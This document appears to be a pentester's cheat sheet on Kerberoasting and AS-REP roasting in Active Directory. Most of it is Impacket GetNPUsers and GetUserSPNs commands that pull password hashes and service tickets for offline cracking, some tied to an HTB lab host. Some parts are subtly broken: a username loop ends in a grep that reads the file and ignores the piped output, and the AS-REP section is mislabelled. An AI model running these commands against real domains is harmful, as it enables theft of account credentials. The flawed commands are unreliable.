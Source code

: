 ```yaml
---
category: Uncategorized
tags: []
---
```

# Kerberoasting
## GetNPUsers (Impacket)
````bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
````

## Bruteforcing Kerberoasting
AS-REP roasting is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected:

![](https://www.ired.team/~/files/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nj7h01rJKzhElx_RC%2F-L_njEkL2a_oSCa1g0H9%2FScreenshot%20from%202019-03-12%2021-08-33.png?alt=media&token=dc08b9a5-1cae-4762-a6a0-773735227aad)

## Looping through a username list
**bash while read do**
````bash
while read p; do GetNPUsers.py <domain>/"$p" -request -no-pass -dc-ip <DC-IP> >> hash.txt; done < usernames.txt | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' usernames.txt
````
**Impacket builtin loop**
````bash
GetNPUsers.py <domain>/ -no-pass -usersfile <username.txt> -dc-ip
<DC-IP> | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
````

## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````

